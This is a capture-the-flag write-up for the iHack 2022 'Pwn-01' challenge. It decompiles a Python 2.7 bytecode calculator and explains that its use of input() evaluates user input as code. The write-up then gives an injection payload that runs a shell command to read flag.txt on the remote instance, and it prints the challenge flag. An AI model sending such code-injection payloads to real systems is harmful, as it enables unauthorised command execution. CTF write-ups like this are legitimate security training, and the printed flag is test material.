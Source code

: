 # Pwn-01

> **Flag Format:** `ihack{MD5}`
>
> **Remote Instance:** `nc pwn1.ihack.sibersiaga.my 80`

The binary is a compiled python executable. The original binary was corrupted.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ file calculator_
calculator_: python 2.7 byte-compiled
```

Fix the file format by changing the extension to `.pyc`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ mv calculator_ calculator.pyc
```

The python byte-code executable can be decompiled using `decompyle6`, `pycdc` or by using this [Online Compiler](https://www.toolnb.com/tools-lang-en/pyc.html).

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ cat calculator.py 

# uncompyle6 version 3.5.0
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.5 (default, Jun 28 2022, 15:30:04) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-44)]
# Embedded file name: calculator.py
# Compiled at: 2022-12-09 16:17:40

import sys
print 'Welcome to IHACK2022. \nThis python program will calculate the prime numbers up to a given number.\nPlease enter a number to be calculated'
sys.stdout.flush()
number = input('')
sys.stdout.flush()
number = int(number)

def is_prime(number):
    if number <= 1:
        return False
    for i in range(2, number):
        if number % i == 0:
            return False

    return True


def print_primes(number):
    for i in range(1, number + 1):
        if is_prime(i):
            print i


print 'The prime numbers up to', number, 'are:'
sys.stdout.flush()
print_primes(number)                     
```

The code uses input function which take any input as literal python code. Therefore, we can get RCE using the shell command `import('os').system("cat flag.txt")`.

**Flag:** `ihack{ebd4e5f19d80a8f40b58a7abba5363a0}`

